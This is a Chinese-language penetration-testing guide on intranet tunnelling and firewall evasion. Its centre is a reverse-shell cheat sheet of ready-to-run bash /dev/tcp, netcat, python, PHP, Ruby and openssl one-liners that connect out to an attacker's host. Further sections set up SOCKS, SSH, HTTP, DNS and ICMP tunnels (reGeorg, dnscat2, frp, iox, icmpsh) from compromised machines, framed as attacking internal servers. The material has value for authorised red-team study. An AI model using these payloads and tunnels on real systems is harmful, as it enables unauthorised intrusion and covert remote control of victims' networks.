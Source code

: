 
# [](#%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F)内网隧道穿透

## [](#1-%E5%9C%BA%E6%99%AF%E4%BB%8B%E7%BB%8D)1 场景介绍

### [](#11-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)1.1 相关概念

内网穿透是：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

> 被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道。一旦到达网络终点，数据将被解包并转发到最终目的地。注意隧道技术是指包括数据封装、传输和解包在内的全过程。

隧道协议的主要作用包括：**规避防火墙**、**加密网络流量**。

常见的隧道列举如下：

-   应用层：SSH、HTTP、HTTPS、DNS。
-   传输层：TCP、UDP、常规端口转发。
-   网络层：IPv6、ICMP、GRE。

### [](#12-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86--%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2 正向代理 & 反向代理

正向代理中，proxy 和 client 同属一个 LAN，对 server 透明；

反向代理中，proxy 和 server 同属一个 LAN，对 client 透明。 实际上 proxy 在两种代理中做的事都是代为收发请求和响应，不过从结构上来看正好左右互换了下，所以把前者那种代理方式叫做正向代理，后者叫做反向代理。

#### [](#121-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86)1.2.1 正向代理

`Lhost -> proxy -> Rhost`

Lhost 为了访问到 Rhost，向 proxy 发送了一个请求并且指定目标是 Rhost，然后 proxy 向 Rhost 转交请求并将获得的内容返回给 Lhost，简单来说正向代理就是 proxy 代替了我们去访问 Rhost。

#### [](#122-%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2.2 反向代理

`Lhost <----> proxy <----> firewall <----> Rhost`

和正向代理相反，Lhost 只向 proxy 发送普通的请求，具体让它转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 proxy 数据进出的时候可以有效的进行穿透

### [](#13-%E8%BD%AC%E5%8F%91%E5%9C%BA%E6%99%AF)1.3 转发场景

#### [](#131-%E5%B8%B8%E8%A7%81%E7%9A%84%E5%9C%BA%E6%99%AF)1.3.1 常见的场景

**安全运维**：绕过堡垒机或防火墙实现对内网服务器进行远程管理

**内网渗透**：绕过堡垒机或防火墙实现对内网服务器进行攻击

目标处于网络边界，内外网都可以访问，网络边界主机未安装防火墙，所有端口都对互联网开放，此类业务场景已经极少出现。

目标处于内网，允许特定的应用层协议出网(比如 HTTP、SSH、DNS)等应用层协议(3389、22、445、53、80、443等)。

目标处于内网，不能访问外网，但是可以访问边界主机，防火墙策略限制外部网络直接访问内网的敏感端口(3389、22、445 等)。

常见的转发方式：

-   反弹端口
-   反弹 shell
-   socks 代理

#### [](#132-%E9%98%B2%E7%81%AB%E5%A2%99%E8%A7%84%E5%88%99)1.3.2 防火墙规则

-   入网
    -   特定的端口映射 `80:80`
-   出网
    -   ICMP
    -   允许特定的协议(HTTP、DNS、SSH、RDP)
    -   允许特定端口(先主流端口，再全端口)

#### [](#133-%E8%BF%9E%E9%80%9A%E6%80%A7%E6%A3%80%E6%B5%8B)1.3.3 连通性检测

在建立隧道前，首先要检测目标机器是否能出网、什么协议可以出网。手动检测较麻烦，所以就有了这个工具，可配合如 wmiexec、psexec 等横向工具进行批量检测，该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。

工具：[https://github.com/uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Usage: SharpNetCheck -dns -host ceye.io<br>       SharpNetCheck -http -host/ip ceye.io<br>       SharpNetCheck -all -host ceye.io<br>``` |

## [](#2-%E5%8F%8D%E5%BC%B9-shell)2 反弹 shell

### [](#21-bash)2.1 Bash

#### [](#211-bash-tcp)2.1.1 Bash TCP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>bash -i >& /dev/tcp/ip/port 0>&1<br>bash -i > /dev/tcp/ip/port 0<& 2>&1<br>exec 5<>/dev/tcp/ip/port;cat <&5 \| while read line; do $line 2>&5 >&5; done<br>exec /bin/sh 0</dev/tcp/ip/port 1>&0 2>&0<br>0<&196;exec 196<>/dev/tcp/ip/port; sh <&196 >&196 2>&196<br>``` |

#### [](#212-bash-udp)2.1.2 Bash UDP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>Victim:<br>sh -i >& /dev/udp/10.0.0.1/4242 0>&1<br><br>Listener:<br>nc -u -lvp 4242<br>``` |

### [](#22-%E5%BA%94%E7%94%A8%E5%86%85%E5%8F%8D%E5%BC%B9-shell)2.2 应用内反弹 shell

#### [](#221-netcat)2.2.1 netcat

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ncat ip port -e /bin/bash<br>nc -e /bin/bash ip port<br>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc ip port >/tmp/f<br>rm -f x; mknod x p && nc ip port 0<x \| /bin/bash 1>x<br>``` |

#### [](#222-python)2.2.2 python

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br><br># windows only<br>python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'<br>``` |

Python 环境下的 Tips

转成交互式 shell：`python -c 'import pty;pty.spawn("/bin/bash")'`

完全交互式 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br>$ stty raw -echo<br>$ fg<br>$ reset<br>$ export SHELL=bash<br>//$ export TERM=xterm-256color<br>``` |

#### [](#223-php)2.2.3 PHP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```php<br>php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'<br><br>php -r '$s=fsockopen("ip",port);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'<br>  <br>php -r '$s=fsockopen("ip",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'<br>``` |

#### [](#224-ruby)2.2.4 Ruby

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'<br><br># windows only<br>ruby -rsocket -e 'c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print io.read}end'<br>``` |

### [](#23-openssl-%E6%B5%81%E9%87%8F%E5%8A%A0%E5%AF%86)2.3 openssl 流量加密

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br># VPS 生成 SSL 证书的公私钥对<br>openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br><br># 在 VPS 监听反弹 shell<br>openssl s_server -quiet -key key.pem -cert cert.pem -port 4433<br><br># 在目标上用 openssl 加密反弹 shell 的流量(linux)<br>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 \| openssl s_client -quiet -connect IP:port > /tmp/s; rm /tmp/s<br><br># windows<br>openssl s_client -quiet -connect [ip]:[port1] \| cmd.exe \| openssl s_client -quiet -connect [ip]:[port2]<br><br># 以上命令会从 [ip]:[port1] 获取命令发送给 cmd.exe执行，然后把结果返回到 [ip]:[port2]<br><br># 因此在本机需要启动两个 s_server<br><br># 从 port1 发送命令到 cmd<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port1] <br># 从 port2 获取发送给 port1 的命令执行结果<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port2]<br>``` |

### [](#24-all-in-one)2.4 All in One

以下是几个自动生成反弹 shell 命令的网站：

[https://mrxn.net/reverse\_shell.php](https://mrxn.net/reverse_shell.php)

[https://ares-x.com/tools/reverse-shell/](https://ares-x.com/tools/reverse-shell/)

一个在线编码的网站，防止因特殊字符被过滤，也可以用在 java.lang.Runtime.exec() 的 payload 中：

[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)

## [](#3-%E5%BA%94%E7%94%A8%E5%B1%82%E9%9A%A7%E9%81%93)3 应用层隧道

### [](#31-http-%E9%9A%A7%E9%81%93)3.1 HTTP 隧道

#### [](#311-regeorg)3.1.1 reGeorg

**建议使用 nosocket 版**

工具地址：[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

使用方法：

1.  上传 tunnel 文件
2.  服务端运行：`python reGeorgSocksProxy.py -p 8080 -u http://ip:port/tunnel/tunnel.jsp`

#### [](#312-neo-regorg)3.1.2 Neo-reGorg

工具地址：[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

**Neo-reGeorg** 是一个重构了 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

-   提高 tunnel 连接安全性
-   提高可用性，避免特征检测
-   提高传输内容保密性
-   应对更多的网络环境场景

使用方法：

1.  设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器：`python3 neoreg.py generate -k password`
2.  使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理：`python3 neoreg.py -k password -u http://xx/tunnel.php`

注意

注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等

#### [](#313-%E5%85%B6%E5%AE%83)3.1.3 其它

-   Tunna

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># -u 远程代理脚本地址<br># -l 表示本地监听的端口<br># -r 远程映射端口<br># -v 输出详细数据<br># -a 代理远程连接的主机地址<br>python proxy.py -u http://ip/conn.aspx -l 1080 -v<br>python proxy.py -u http://ip/conn.aspx -l 5555 -r 8080 -s -v -n<br>``` |

-   [abptts](https://github.com/nccgroup/ABPTTS)
-   [pystinger](https://github.com/FunnyWolf/pystinger)
-   …

### [](#32-ssh-%E9%9A%A7%E9%81%93)3.2 SSH 隧道

参考：[https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/](https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/)

#### [](#321-%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.1 本地端口转发

在本地主机上开启端口流量转发功能

例如：在入侵者主机上执行（VPS 上执行主动连接）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -L 8866:192.168.10.3:23 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print](assets/1699409250-8fffb8180573074fa6cac7698dcde59a.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108224514.png-water_print")

#### [](#322-%E8%BF%9C%E7%A8%8B%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.2 远程端口转发

在远程主机上开启端口流量转发功能

例如：在堡垒机上执行（边界主机上执行回连）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -R 8866:192.168.10.3:23 -fN 192.168.10.1<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print](assets/1699409250-26c271d58b7d17a70892194fdb60223d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225357.png-water_print")

#### [](#323-%E5%8A%A8%E6%80%81%E8%BD%AC%E5%8F%91---socket)3.2.3 动态转发 - Socket

在本地主机上开启流量动态转发功能，并配置代理

例如：在入侵者主机上执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -D 1100 -fN 192.168.10.2<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print](assets/1699409250-1473b3690782bea9a90e395bdbd8cac6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108225846.png-water_print")

### [](#33-dns-%E9%9A%A7%E9%81%93)3.3 DNS 隧道

工具 [DNScat2](https://github.com/iagox86/dnscat2)

编译好的各种版本：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/)

#### [](#331-%E9%85%8D%E7%BD%AE%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95)3.3.1 配置解析记录

DNS 解析记录中添加一条 A 记录，名称为 `ns1` 值为 VPS IP 地址

再添加一条 NS 记录，名称为任意一个子域名，指向地址为 `ns1.yourdomain.com`

#### [](#332-%E5%AE%89%E8%A3%85-dnscat2-%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.2 安装 dnscat2 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>apt-get install gem<br>apt-get install ruby-dev<br>apt-get install libpq-dev<br>apt-get install ruby-bundler<br>apt-get install git<br>git clone https://github.com/iagox86/dnscat2<br>bundle install<br>``` |

#### [](#333-%E5%90%AF%E5%8A%A8%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.3 启动服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ruby ./dnscat2.rb dnscat.yuming.com -e open -c mima --no-cache<br>``` |

#### [](#334-%E5%90%AF%E5%8A%A8%E5%AE%A2%E6%88%B7%E7%AB%AF)3.3.4 启动客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 测试能否通信<br>dnscat-client.exe -ping dnscat.yuming.com<br><br># 连接<br>dnscat-client.exe --dns domain=dnscat.yuming.com -secret mima<br>``` |

## [](#4-%E4%BC%A0%E8%BE%93%E5%B1%82)4 传输层

SOCKS4 支持 telnet、FTP、HTTP 等 TCP 协议

SOCKS5 支持 TCP 与 UDP，并支持安全认证方案

### [](#41-frp)4.1 FRP

frp 采用 Golang 编写，支持跨平台，仅需下载对应平台的二进制文件即可执行。工具地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp)

编写配置文件，先通过 `./frps -c ./frps.ini` 启动服务端，再通过 `./frpc -c ./frpc.ini` 启动客户端。

服务端部署在我们具有公网 IP 的服务器上，客户端放在我们拿到权限的跳板服务器上，双端都需要对配置文件进行配置。

#### [](#411-%E6%9C%8D%E5%8A%A1%E7%AB%AF)4.1.1 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>[common]<br># frp 服务端端口<br>bind_port = 7000<br># 仪表盘端口<br>dashboard_port = 8888<br># frp服务端密码<br>token = 123456<br># 仪表盘默认账号密码<br>dashboard_user = admin<br>dashboard_pwd = admin<br>``` |

启动 FRP：`frps -c frps.ini`

#### [](#412-%E5%AE%A2%E6%88%B7%E7%AB%AF)4.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```fallback<br>[common]<br>server_addr = VPS IP<br>server_port = 7000<br># 与 vps 保持一致<br>token = 123456<br>[ssh]<br>type = tcp<br>local_ip = 127.0.0.1<br>local_port = 22<br>remote_port = 7000<br>use_encryption = true<br>use_compression = true<br>``` |

### [](#42-iox)4.2 iox

iox 是一个端口转发 & 内网代理工具，功能类似于`lcx`/`ew`，但是比它们更好。

工具地址：[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)

#### [](#421-%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)4.2.1 端口转发

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br># 端口转发 - 从本地 8888 转到 9999<br>./iox fwd -l 8888 -l 9999<br><br># 端口转发 - 从本地 8888，把流量转发到 1.1.1.1:9999<br>./iox fwd -l 8888 -r 1.1.1.1:9999<br><br># 连接 1.1.1.1:8888 和 1.1.1.1:9999, 在两个连接间转发<br>./iox fwd -r 1.1.1.1:8888 -r 1.1.1.1:9999<br>``` |

#### [](#422-%E4%BB%A3%E7%90%86)4.2.2 代理

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 在本地 0.0.0.0:1080 启动 Socks5 服务 - 正向代理<br>./iox proxy -l 1080<br><br><br># 反向代理<br># 在被控机开启 Socks5 服务，将服务转发到公网 VPS<br>./iox proxy -r 1.1.1.1:9999<br><br># 在 VPS 上转发 0.0.0.0:9999 到 0.0.0.0:1080<br># 你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连<br>./iox proxy -l 9999 -l 1080       // 注意，这两个端口是有顺序的<br><br># 接着连接内网主机<br># socks5://1.1.1.1:1080<br>proxychains rdesktop 192.168.0.100:3389<br>``` |

### [](#43-ssocks)4.3 sSocks

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试。

工具地址：[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

-   正向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./ssocksd --bind 192.168.172.131 --port 1080<br>``` |

-   反向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 攻击者机器监听 6020 端口转发到 6010<br>./rcsocks -l 6020 -p 6010 -vv<br><br># 受害者反向连接代理主机 6010 端口<br>./rssocks -s 攻击者IP:6010 -vv<br>``` |

## [](#5-%E7%BD%91%E7%BB%9C%E5%B1%82)5 网络层

### [](#51-icmp-tunnel)5.1 ICMP Tunnel

工具名称：[ICMPSH](https://github.com/inquisb/icmpsh)

#### [](#511-%E6%9C%8D%E5%8A%A1%E7%AB%AF)5.1.1 服务端

服务端首先需要关闭 ICMP 回显：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

安装服务端：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>apt-get install python-impacket<br>python icmpsh_m.py 本机IP 目标机器公网IP<br>``` |

#### [](#512-%E5%AE%A2%E6%88%B7%E7%AB%AF)5.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>icmpsh.exe -t 目标IP -d 500 -b 30 -s 128<br>``` |
